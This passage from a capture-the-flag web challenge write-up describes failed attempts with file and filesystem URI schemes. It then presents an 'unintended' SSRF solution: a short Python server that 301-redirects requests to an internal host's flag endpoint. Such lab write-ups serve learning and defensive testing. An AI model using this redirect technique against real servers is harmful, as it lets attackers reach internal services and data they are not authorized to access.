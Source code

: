 <img src="./fileURI.png" alt="image-20201210234851369" style="zoom:50%;" />



I tried this for an hour, even trying filesystem:// URIs and researching the other various [URI schemes](https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml) for a possible attack vector but found none.

<div align="center">
  <img src="./sadge.png"/>
</div>



I ultimately just gave up until I decided to try the actual backend URL as a last resort :') 



However, after completing the challenge the intended way, I wanted to check if the SSRF attack could be used to also solve the challenge, by redirecting to `http://web_challenge_5_dummy/flag/42` from my server. I present the unintended(albeit harder to discover) solution:

```python
import os
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
PORT = os.getenv('PORT')

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(301)
       self.send_header('Location', 'http://web_challenge_5_dummy/flag/42')
       self.end_headers()

HTTPServer(("", PORT), Redirect).serve_forever()
```
